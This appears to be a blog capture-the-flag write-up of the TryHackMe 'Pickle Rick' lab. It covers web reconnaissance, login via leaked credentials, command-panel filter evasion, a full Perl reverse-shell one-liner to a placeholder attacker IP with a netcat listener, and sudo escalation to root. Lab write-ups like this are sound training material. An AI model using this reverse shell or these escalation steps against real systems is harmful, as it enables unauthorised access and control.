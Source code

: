 ```yaml
---
title: 'Pickle Rick'
permalink: /writeups/2023/01/pickle-rick/
tags:
  - CTF
  - TryHackMe
  - Hacking
---
```


🚩

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Begin the box by setting up directory for project under ~/pickle-rick-ctf, also created a directory for nmap. at ~/pickle-rick-ctf/nmap. This is just to easily store and remove the information and files gathered during the CTF.

Using nmap we can begin gathering information about the target.

```bash
nmap -sV -sC -O $ip -oN nmap/initial
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:23 EDT
Nmap scan report for 10.10.178.231
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0b:eb:d9:e4:65:7d:72:1a:d0:a1:fd:c3:88:2c:ee:82 (RSA)
|   256 77:b4:2c:d4:88:15:ca:7f:d5:fb:2d:ec:d7:d5:41:37 (ECDSA)
|_  256 a5:7f:5f:33:47:d7:d8:f2:04:c3:7e:c8:8e:f6:89:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=38185%PV=Y%DS=2%DC=I%G=Y%TM=652DC6
OS:17%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z
OS:%CI=I%TS=8)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11N
OS:W7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508S
OS:T11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=4
OS:0%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.95 seconds
```

First of all we can see the machine is running 2 ports. Port 22 & 80 indicating a http web server is running as well as OpenSSH on port 22.

We can begin to look at the site to see what is going on.

![](/images/pr1.png)

Site returns a page indicating that Rick needs help from Morty to turn himself back into a human. As he was a pickle, classic Rick.

By viewing the HTML source code we can see that rick has left a note that his username is R1ckRul3s - Now we know Ricks username but we don’t know what this username is for or the password.

Next I’m going to use nikto to attempt to try and find any outdated software versions or files/directories that could be exploited.

```bash
nikto -url $ip | nikto-output.log
```

![Untitled](/images/pr2.png)

Nikto showed us that the version of Apache appears to be out of date, there is a login page at /login.php and some other stuff.

Whilst nikto is doing it’s work I’m also going to user gobuster to try and find any hidden directories using a wordlist provided in /usr/share/wordlists.

```bash
gobuster -u $ip -w=/usr/share/wordlists/directory-list-1.0.txt -x php,sh,txt
```

Gobuster will brute force the directories and hopefully give us some results which we can use to find more information about the target machine.

![Untitled](/images/pr3.png)

Gobuster has given us a few pages to check out including the same login page shown by nikto as well as portal.php, ./php, an assets directory and finally robots.txt.

Opening robots.txt we can see some text this could be a password of some kind or just Rick being Rick.

Trying the combination of R1ckRul3s and REDACTED on the login.php page is correct and we have successfully logged into the admin panel.

![Untitled](/images/pr4.png)

Let’s try and explore the different pages to see if we can find anything interesting. All the links return a GIF screen indicating that only the real Rick can view these pages.

![Untitled](/images/pr5.png)

The commands section however has a blank box in which we can execute code and the return is shown back to us.

![Untitled](/images/pr6.png)

Running ls in the commands panel displays the files within the directory.

![Untitled](/images/pr7.png)

Using cat returns an error that the command is disabled to make it harder. This means we will have to find another way to view the files contents.

Using both head and tail is also forbidden so instead we can try other methods of displaying. One way is to use;

```bash
grep . Sup3rS3cretPickl3Ingred.txt
```

Grep is not disabled and returns the answer to the first clue in the CTF.

You could also try writing a script that echos the contents of the file line by line but grep is much cleaner in this situation.

We need to find a way to give us a more stable shell and not rely on the web interface to try and navigate the file system (This is possible and you can complete the challenge by doing so). To do this we can use a reverse shell.

We can try by using netcat but the string “cat” will be caught by the checking system used by the site to prevent the usage of cat. Using the shorthand nc also yields nothing.

Next we can try and use perl or python to try and return an output.

```bash
perl -e "print 'test'"
```

This time we get the output of “test” so we know we can use perl in some way to give us a reverse shell.

Using [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to give us a premade shell command to work with.

```bash
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We can modify this command to insert our IP address and our chosen port to establish a connection.

```bash
nc -lvnp PORT
```

Let’s start a listener with netcat and set it listening on the same port you used for the command.

Now we can insert the script into the command panel and hopefully establish a reverse shell to make it easier to navigate the filesystem and get more answers.

![Untitled](/images/pr8.png)

Success!

Once in we can run the whoami command to see that we are user www-data. We can also see what permissions we have using the command;

```bash
sudo -l
```

This command shows us that we may run any command with no password required. This is fantastic news.

![Untitled](/images/pr9.png)

After snooping around in the file directory we can access the /home directory and see there are two users on the system. Ubuntu and Rick. Entering Ubuntu we see nothing in there. Going into Rick shows us a file named “second ingredients”.

```bash
cat "second ingredients"
```

Returns the second answer to our CTF.

Now we need to find the final ingredient to turn Rick back into a human.

Using the fact we can use any command with no password means we can view the root directory using the following command;

```bash
sudo ls /root/
```

This shows us the following;

![Untitled](/images/pr10.png)

This must be the third ingredient required.

```bash
sudo cat 3rd.txt
```

We get our final ingredient and finish our CTF adventure with Rick and Morty.
